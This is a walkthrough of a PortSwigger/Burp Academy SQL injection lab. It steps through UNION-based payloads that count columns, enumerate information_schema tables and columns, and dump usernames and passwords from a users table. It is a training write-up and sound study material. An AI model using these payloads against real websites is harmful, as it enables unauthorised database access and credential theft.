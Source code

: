 ```yaml
---
description: A walkthrough of one of the Burp Academy Labs
---
```


# SQLi Walkthrough

## Intro

When we enter the room are presented with a web page:

![](.gitbook/assets/image%20%2811%29.png)

## Injection Point

From here we search for our parameter that is injectable, clicking on one of the product categories we find an injection point:

![&quot;category=gifts&quot; is our injection point](.gitbook/assets/image%20%289%29.png)

## Counting Columns

First we need to craft a statement that will identify how many columns are in the table:

```text
' ORDER BY 1,2--
```

![](.gitbook/assets/image%20%285%29.png)

The page loads with 2, and errors at 3, so there are 2 columns we have discovered. we can double check this with the following:

```text
' UNION SELECT NULL,NULL--
```

![](.gitbook/assets/image%20%2815%29.png)

## Strings?

Next we have to discover if any of these columns can take a string value, we can add 'a' in place of the null to test this:

![](.gitbook/assets/image%20%286%29.png)

![](.gitbook/assets/image%20%2813%29.png)

## Find Table Names

Next we should discover which tables are located within the database.

```text
' UNION SELECT table_name,NULL FROM information_schema.tables--
```

![](.gitbook/assets/image%20%288%29.png)

From the list displayed we can find any interesting tables:

![](.gitbook/assets/image%20%2812%29.png)

## Find Column Names

We now need to discover which columns are within this table, using the following:

```text
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_uiykfb'--
```

![](.gitbook/assets/image%20%2810%29.png)

## Sweet Sweet Data

Now we have the column names we can get the data!

```text
' UNION SELECT username_kwdcsh,password_possgi FROM users_uiykfb--
```

![](.gitbook/assets/image%20%287%29.png)

